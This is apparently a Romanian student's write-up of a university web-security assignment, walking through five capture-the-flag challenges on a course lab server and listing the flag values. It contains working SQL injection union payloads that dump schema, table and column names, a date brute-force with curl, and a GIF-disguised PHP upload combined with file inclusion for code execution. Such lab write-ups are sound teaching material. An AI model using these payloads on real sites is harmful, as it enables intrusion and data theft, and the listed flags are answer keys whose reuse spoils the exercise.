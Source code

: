 # Tema 2 TSSC - Securitate Web
## Cerinta 1
```
SpeishFlag{JdYwzaWeoObO84QKtMl93jWMsRPKx8UV}
```
Doar am deschis `traffic.pcap` in *Wireshark* si am cautat prin raspunsurile
primite de la server pana am gasit cheia privata, cu care m-am logat prin *SSH*
la endpointul din enunt:
```bash
teo@obor task1 $ ssh -i id_rsa secure@isc2021.root.sx
You did it! Congratulations!

Your flag is:

SpeishFlag{JdYwzaWeoObO84QKtMl93jWMsRPKx8UV}

Connection to isc2021.root.sx closed.
```


## Cerinta 2
### Primul flag
```
SpeishFlag{xesOb3jmqp2o99u5R3X0E8jMLse9WNZn}
```

Am observat ca butonul de `register` ma duce spre calea `/auth/fake_login`, asa
ca m-am uitat in codul sursa *HTML* al paginii, unde am gasit un comentariu
catre likul real de login: `/auth/register_real_one`. Mi-am facut cont, m-am
logat cu el si m-am uitat din nou in codul sursa al paginii, de data aceasta in
cel al caii: `/inside`, unde am gasit flagul.


### Al doilea flag
```
SpeishFlag{bwZjYXYnJ0f8ucN8yoGB3KF6t7AFtHnQ}
```

Initial, am incercat sa-i dau *friend request* bossului. Degeaba. Iar m-am uitat
in codul site-ului si apoi in `main.js` si am observat ca e destul sa apelez eu,
de pe profilul meu, `acceptFriend(boss_id)` ca bossul sa imi accepte si el
cererea. Am incercat sa apelez `acceptFriend(theboss)` si n-a mers. Asa ca am
sperat ca poate id-urile ar putea fi ca intr-o baza de date, ceea ce e adevarat,
id-ul bossului fiind prezent in sursa *HTML* a paginii
(`<div class="box profile-view" data-user-id="1">`) si e 1. Dupa ce am apelat
`acceptFriend(1)`, am vazut flagul pe profilul bossului.


### Al treilea flag
```
SpeishFlag{FPFcPKwWeeDvGNGsl281MYyT5vU1W3t3}
```

Pe wallul bossului am gasit scriptul `backup.sh`, cu care serverul arhiveaza
directorul curent (inca nu se stie care e) in fisierul `backup-orig.tar.gz`. De
asemenea, scriptul arhiveaza si /fisierul `flag.txt` in `/tmp/flag.tar.gz`, iar
la final concateneaza aceste 2 arhive in fisierul
`backup-<data curenta>.tar.gz`.

Dar nu stiam unde e `backup.sh` (probabil `backup-<data curenta>.tar.gz` e in
acelasi director), asa ca am descarcat intregul director de la `localhost:8080`,
prin `wget`, folosind cookie-urile luate din browser, pentru a pastra
autentificarea la server:
```
wget -r http://localhost:8080/ --load-cookies cookies
```
Uitandu-ma prin directoarele serverului, am vazut ca `backup.sh` se afla in
radacina, deci probabil si `backup-<data curenta>.tar.gz` e in acelasi loc. Ca
sa ghicesc data, am facut scriptul `bruteforce_dates.sh` in care am luat la rand
datele din secolul al XXI-lea si am incercat sa dau `curl` la
```
curl -b cookies -f --silent --output backup.tar.gz http://localhost:8080/backup-<data>.tar.gz
```
pana am gasit data buna, care e `2021-04-11`. Am cautat apoi unde incepe arhiva
cu flagul. Headerul unui fisier `.tar.gz` incepe cu `0x1f 0x8b 0x08`. Am gasit
3 indecsi in binar la care se gasesc cei 3 octeti enumerati anterior. Primul e 0
(duh...), al 2-lea e intamplator, iar al 3-lea e headerul legit, la indexul
`0x381dcf`.

Ce a urmat a fost sa extrag ultima parte a fisierului, de la indexul gasit:
```
tail -c +$((16#381dd0)) backup.tar.gz > flag.tar.gz
```
iar in fisierul `flag.txt` rezultat din dezarhivarea arhivei `flag.tar.gz`, se
gaseste flagul.


### Al patrulea flag
```
SpeishFlag{jOIIw4CsMqbdEzruk5cve73bfIuTee1p}
```

Folsind `sqlmap`, am vazut ca endpointul vulnerabil este
`http://localhost:8080/inside/p/`. ID-ul care urmeaza dupa `/p/` este trimis
direct in cererea catre baza de date.

Asadar, am procedat clasic si am inceput prin a afla numarul de coloane prin
payloadul:
```
' or 1 order by 1,2,3,4,5,6,7,8,9,10 -- x 
```
Serverul dadea erorae la coloana 9, deci sunt 8 coloane. Apoi am dat payloadul
de mai sus doar pana la 8 pentru a vedea care coloana e afisata. E coloana 3.

Acum am nevoie sa aflu care e schema din care face parte tabela cu flagul.
In consecinta, am folosit cererea de mai jos. De precizat e ca apar multe
duplicate, iar serverul trunchiaza outputul, drept care am folosit `distinct`.
```
' union select 1, 2, group_concat(distinct(table_schema) separator ','), 4, 5, 6, 7, 8 from information_schema.tables -- x
```
Asa am vazut ca shema se cheama `web_5371`.

Folosind schema asta, am cautat toate tabelele din ea folosind cererea de mai
jos:
```
' union select 1, 2, group_concat(table_name separator ','), 4, 5, 6, 7, 8 from information_schema.tables where table_schema='web_5371' -- x
```
Si am vazut ca printre tabele generice precum `accounts` se gasea si
`flags9174`, care probabil contine flagul.

Acum tot ce imi mai trebuia era sa stiu numele coloanei ce contine flagul.
Pentru asta am folosit cererea de mai jos, prin care am afisat numele tututor
coloanelor din `web_5371.flags9174`.
```
' union select 1, 2, group_concat(column_name separator ','), 4, 5, 6, 7, 8 from information_schema.columns where table_schema='web_5371' and table_name='flags9174' -- x
```
Tabela contine 2 coloane: `id` si `zaflag`. Deci flagul trebuie sa fie in cea
de-a doua coloana.

Cu ultima cerere am obtinut chiar flagul de mai sus:
```
' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from web_5371.flags9174 -- x
```


## Al cincilea flag
```
SpeishFlag{5kKCDfEKfrH0z9Agrx1Op9MXJ459vswP}
```

Dezarhivand intreaga arhiva `backup.tar.gz`, am descoperit in scriptul
`controller/inside/Post.php` ca atunci cand trimit o poza, aceasta trebuie sa
aiba *mime-type-ul* `jpeg`, `png` sau `gif`. Am mai vazut si ca uploadurile se
duc in `/var/www/userupload/posts`. In `index.php`-ul din radacina arhivei, am
observat ca se alge controllerul folosit prin parametrul `p` al cererii `GET`.
In plus, extensia numelui pozei trebuie sa fie `.php`. y u do dis? Si din cauza
ca `$curController = ucfirst(strtolower($component));`, numele "pozei" trebuie
sa inceapa cu majuscula.

Asadar, ca sa pot sa rulez *PHP* din poza, trebuie sa o incarc (adica sa incarc
un cod *PHP* precedat de un header de poza), iar apoi sa dau un `GET` in care
parametrul `p` va fi calea catre poza incarcata anterior. Astfel, serverul va
executa codul din poza.

Cum cel mai scurt header este cel de *GIF* (pronuntat ca in romana, da?), am
ales formatul asta pentru poza. Fisierul incarcat e `Picture.php`.
